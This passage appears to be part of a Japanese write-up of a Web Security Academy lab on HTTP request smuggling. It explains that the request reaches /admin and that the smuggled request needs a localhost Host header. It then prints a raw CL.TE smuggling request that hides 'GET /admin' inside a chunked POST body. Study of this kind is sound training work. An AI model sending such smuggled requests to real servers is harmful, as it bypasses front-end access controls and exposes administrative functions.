 このように送ってあげれば良さそうです。

結果として、`/admin`にリクエストが到達できていそうなことがわかります。 (Front-endに弾かれると403のため。)

![](./images/README_231016_121351.png)

`localhost`でなければならなそうです。

```text
POST / HTTP/1.1
Host: 0a570045043ffbdd81e87aea00b000ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
s: 
```
